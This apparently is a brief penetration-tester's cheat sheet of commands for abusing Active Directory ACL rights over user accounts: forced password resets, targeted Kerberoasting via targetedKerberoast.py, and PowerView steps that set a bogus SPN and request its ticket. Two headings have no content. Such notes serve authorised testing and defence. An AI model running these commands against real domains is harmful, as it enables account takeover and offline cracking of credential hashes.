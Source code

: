 # ACLs/ACEs permissions on User

### ForceChangePassword

 - net user USER PASSWORD /domain

 - net rpc password USER PASSWORD -S DC_FQDN

### GenericAll / GenericWrite

#### 1) Change Password

 - net user USER PASSWORD /domain

#### 2) Targeted Kerberoasting (add SPN)

 - targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

 - Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} (Enumerate interesting ACLs with powerview)

 - Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

 - Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 3) Logon Script (Access)

#### 4) add Key Credentials (Shadow Credentials)
